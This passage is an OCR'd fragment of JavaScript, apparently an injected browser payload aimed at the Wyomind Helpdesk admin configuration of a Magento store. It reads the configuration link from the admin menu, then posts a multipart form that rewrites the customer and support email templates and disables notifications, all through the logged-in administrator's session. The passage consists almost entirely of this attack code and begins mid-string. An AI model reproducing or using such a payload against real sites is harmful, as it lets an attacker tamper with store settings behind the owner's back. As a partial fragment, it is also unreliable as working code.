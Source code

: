         "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][confirmation_content][value]\"\r\n" +
        "\r\n" +
        "Dear {{customer_firstname}},\x3cbr/\x3e\x3cbr/\x3e\r\n" +
        "Your message has been sent to the support team.\r\n" +
        "Here is the message content:\x3cbr/\x3e\r\n" +
        "\"{{message}}\" \x3cbr/\x3e\x3cbr/\x3e\r\n" +
        "Kind Regards,\r\n" +
        "The Support Team.\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][notification_enabled][value]\"\r\n" +
        "\r\n" +
        "0\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][notification_content][value]\"\r\n" +
        "\r\n" +
        "Hello {{customer_firstname}},\x3cbr/\x3e\x3cbr/\x3e\r\n" +
        "Your ticket \"{{ticket_object}}\" (#{{prefixed_id}}) has been updated.\r\n" +
        "Please login to your account via this link in order to see the new message: {{customer_account_link}}\x3cbr/\x3e\x3cbr/\x3e\r\n" +
        "Regards,\r\n" +
        "The Support Team.\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails_support_team_settings]\"\r\n" +
        "\r\n" +
        "0\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[emails][groups][support_team_settings][fields][notification_enabled][value]\"\r\n" +
        "\r\n" +
        "0\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[emails][groups][support_team_settings][fields][notification_content][value]\"\r\n" +
        "\r\n" +
        "You received a new message from a customer.\r\n" +
        "-----------------------------14303502862141221692667966053--\r\n";
      var aBody = new Uint8Array(body.length);
      for (var i = 0; i < aBody.length; i++)
      aBody[i] = body.charCodeAt(i);
      xhr.send(new Blob([aBody]));
      }
      submitRequest();
    }

    var request = new XMLHttpRequest();
    request.onload = successListener;
    request.responseType = 'document';
    request.open('GET', document.querySelector('[data-ui-id="menu-wyomind-helpdesk-configuration"]').querySelector('a').href, true);
    request.send();
    </script>
